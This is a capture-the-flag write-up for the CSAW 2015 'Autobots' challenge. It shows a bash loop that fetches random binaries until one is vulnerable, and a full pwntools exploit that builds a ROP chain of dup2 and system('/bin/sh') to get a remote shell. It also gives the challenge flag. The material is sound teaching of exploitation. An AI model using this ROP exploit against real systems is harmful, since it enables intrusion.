```yaml
---
title:      CSAW 2015 - Autobots
author:     conand & marcof
date:       2015-09-24 18:00:00
summary:    Automated bot exploiting buffer overflow.
categories: CSAW2015 Exploitables
tags:
 - CSAW
 - Exploitables
 - ROP
---
```


> I hear bots are playing ctfs now.
Note: Aslr has now been disabled for this challenge



The challenge did not provide any binary but just a remote service.
Connecting to the remote service we got an ELF:

    $ nc 52.20.10.244 8888 > binary
    $ file binary
    binary: ELF 64-bit LSB  executable, x86-64, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=c9977e6ab77d506a99fd04551f255e27198584db, not stripped

Decompiling we easily found out that the executable spawned another service reading our input and writing back to the socket the same input.

{% highlight C%}
int __cdecl main(int argc, const char **argv, const char **envp)
{
  size_t v3; // rax@1
  int result; // eax@1
  __int64 v5; // [sp-100h] [bp-100h]@1
  __int64 v6; // [sp-F0h] [bp-F0h]@1
  int v7; // [sp-8h] [bp-8h]@1
  int v8; // [sp-4h] [bp-4h]@1

  v8 = socket(2, 1, 0);
  memset(&v5, 0, 0x10uLL);
  LOWORD(v5) = 2;
  HIDWORD(v5) = htons(0);
  WORD1(v5) = htons(0x5155u);
  bind(v8, (const struct sockaddr *)&v5, 0x10u);
  listen(v8, 10);
  v7 = accept(v8, 0LL, 0LL);
  read(v7, &v6, 0x13BuLL);
  v3 = strlen((const char *)&v6);
  write(v7, &v6, v3 + 1);
  sub_40086F();
  return result;
}
{% endhighlight %}

We noticed that the executables provided by the server were always different and ran on the remote host for about 1 second.
Downloading more binaries we noted that the only differences in the binaries were the service port, the dimension of the buffer, and the number of bytes read.  
These parameters were randomly generated, leading sometimes to a buffer overflow.
Hence, the idea was to query the server until a vulnerable executable is generated.

    $ checksec.sh --file binary
    RELRO           STACK CANARY      NX           PIE      RPATH      RUNPATH     FILE
    Partial RELRO   No canary found   NX enabled   No PIE   No RPATH   No RUNPATH  binary 

NX was enabled on the binaries but there was no canary. Let's ROP!

We grabbed libc from the server hosting Exploitables250 in the hope that it was the same also for this challenge, and it was. The challenge description stated ASLR had been disabled, so we did not need any memory leak to obtain a reference to the libc. 

We wrote a bash script to download the executables, parse the output of `objdump`, grep the randomly generated parameters, and pass them to the python exploit.

{% highlight bash%}
#!/bin/bash

HOST=52.20.10.244
PORT=8888

while true; do
    nc ${HOST} ${PORT} > qweqwe
    NEW_PORT=`objdump -d qweqwe | grep -n1 htons | tail -3 | head -1 | grep -o -P '(?<=0x).*(?=,)'`
    BUFF_SIZE=`objdump -d qweqwe | grep lea | tail -4 | head -1 | grep -o -P '(?<=0x).*(?=\()'`
    READ_SIZE=`objdump -d qweqwe | grep mov | tail -n15 | head -1 | grep -o -P '(?<=0x).*(?=,)'`

    NEW_PORT_INT=`printf "%d\n" 0x${NEW_PORT}`
    BUFF_SIZE_INT=`printf "%d\n" 0x${BUFF_SIZE}`
    READ_SIZE_INT=`printf "%d\n" 0x${READ_SIZE}`

    python exploit.py $NEW_PORT_INT $BUFF_SIZE_INT $READ_SIZE_INT
done
{% endhighlight %}

The python exploit simply checks if the service is vulnerable and, if so, builds the ROP chain to execute `system("/bin/sh")`.
We used [ropper](https://github.com/sashs/Ropper) to find the gadgets in the libc.
Since our input was bound to the socket we called `dup2` to attach the socket to stdin/stdout.

Flag: `flag{c4nt_w4it_f0r_cgc_7h15_y34r}`.

{% highlight python%}
from pwn import *
from binascii import hexlify
import sys

host = '52.20.10.244'
port = int(sys.argv[1])
buff_size = int(sys.argv[2])
read_size = int(sys.argv[3])

if read_size <= buff_size + 160:
    exit()

print "VULNERABLE!"

conn = remote(host, port)

read_ref = 0x00007ffff7b00800 # address of read in libc
read_offset = 0xeb800 # offset of read in libc

binsh_offset = 0x17ccdb
gadget_offset = 0x22b1a     # pop rdi
gadget2_offset = 0x24805    # pop rsi
dup2_offset = 0xebfe0
system_offset = 0x46640

my_fd = 6 # file descriptor

payload = "A"*(buff_size + 8)

# ROP chain
payload += p64(read_ref - read_offset + gadget_offset)
payload += p64(my_fd)
payload += p64(read_ref - read_offset + gadget2_offset)
payload += p64(0)
payload += p64(read_ref - read_offset + dup2_offset)

payload += p64(read_ref - read_offset + gadget_offset)
payload += p64(my_fd)
payload += p64(read_ref - read_offset + gadget2_offset)
payload += p64(1)
payload += p64(read_ref - read_offset + dup2_offset)

payload += p64(read_ref - read_offset + gadget_offset)
payload += p64(read_ref - read_offset + binsh_offset)
payload += p64(read_ref - read_offset + system_offset)

conn.send(payload)

conn.interactive()
{% endhighlight %}
